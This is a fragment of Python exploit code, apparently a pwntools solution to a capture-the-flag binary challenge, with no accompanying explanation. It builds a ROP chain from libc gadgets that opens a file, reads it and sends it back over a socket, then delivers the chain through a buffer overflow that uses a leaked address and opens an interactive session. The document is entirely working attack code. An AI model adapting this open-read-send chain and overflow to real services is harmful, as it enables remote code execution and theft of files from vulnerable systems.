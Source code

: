 ```python
pl+=p64(libc.bss(40)+16)
pl+=p64(pop_rdx)
pl+=p64(0)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rsi)
pl+=p64(0)
pl+=p64(pop_rdx)
pl+=p64(0)
pl+=p64(pop_rdi)
pl+=p64(libc.bss(40))
pl+=p64(pop_rax)
pl+=p64(2)
pl+=p64(syscall)
pl+=p64(xchg_edi_eax)
pl+=p64(pop_rsi)
pl+=p64(libc.bss(40))
pl+=p64(pop_rdx)
pl+=p64(0x100)
pl+=p64(pop_rax)
pl+=p64(0)
pl+=p64(syscall)
pl+=p64(pop_rcx_rbx)
pl+=p64(0)
pl+=p64(0)
pl+=p64(pop_rdi)
pl+=p64(0xb)
pl+=p64(pop_rdx)
pl+=p64(12)
pl+=p64(pop_rax)
pl+=p64(44)
pl+=p64(syscall)


session=a
buf=session
buf+=p32(0)
buf+=p16(0x500)
buf+=b'moonlit_embrace\0'
buf+=(778-len(b'moonlit_embrace\0'))*b'A'
buf+=p64(leak)
buf+=b'A'*8
buf+=pl
io.send(buf)

pause()
session=a
buf=session
buf+=p32(0)
buf+=p16(0x100)
buf+=b'moonlit_embraceaaa'

io.send(buf)
data = io.recv()
print(data)

io.interactive()
```

